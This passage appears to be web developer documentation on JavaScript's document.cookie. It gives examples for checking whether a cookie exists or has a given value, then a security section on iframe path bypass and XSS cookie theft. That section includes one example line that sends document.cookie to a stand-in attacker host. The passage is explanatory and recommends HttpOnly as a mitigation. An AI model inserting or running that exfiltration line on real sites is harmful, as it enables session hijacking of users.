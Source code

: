 ```js
//ES5

if (document.cookie.split(';').some(function(item) {
    return item.trim().indexOf('reader=') == 0
})) {
    console.log('The cookie "reader" exists (ES5)')
}

//ES2016

if (document.cookie.split(';').some((item) => item.trim().startsWith('reader='))) {
    console.log('The cookie "reader" exists (ES6)')
}
```

### Example #6: Check that a cookie has a specific value

```js
//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
```

## Security

It is important to note that the `path` attribute does _not_ protect against unauthorized reading of the cookie from a different path. It can be easily bypassed using the DOM, for example by creating a hidden {{HTMLElement("iframe")}} element with the path of the cookie, then accessing this iframe's `contentDocument.cookie` property. The only way to protect the cookie is by using a different domain or subdomain, due to the [same origin policy](/ko/docs/Same_origin_policy_for_JavaScript).

Cookies are often used in web application to identify a user and their authenticated session. So stealing the cookie from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include using Social Engineering or by exploiting an XSS vulnerability in the application -

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

The `HTTPOnly` cookie attribute can help to mitigate this attack by preventing access to cookie value through Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).
